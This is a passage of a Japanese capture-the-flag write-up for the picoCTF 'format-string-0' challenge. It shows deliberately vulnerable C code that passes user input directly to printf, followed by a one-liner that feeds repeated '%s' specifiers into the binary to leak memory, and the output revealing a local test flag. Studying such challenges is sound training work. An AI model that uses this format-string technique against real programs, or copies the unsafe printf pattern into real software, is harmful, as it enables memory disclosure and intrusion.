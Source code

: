 ```c
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```
入力に`{"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"}`以外の文字列が含まれていた場合、入力がそのまま`printf`に渡されている。また、`main`関数内でflagを読み込んでいる。よって、普通にメモリをリークすれば良い。
*command:* 
```bash
python -c 'print("%s" * 24)' | ./format-string-0
```
*output:*
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: There is no such burger yet!

picoCTF{fake_local_flag}
```
## format string 1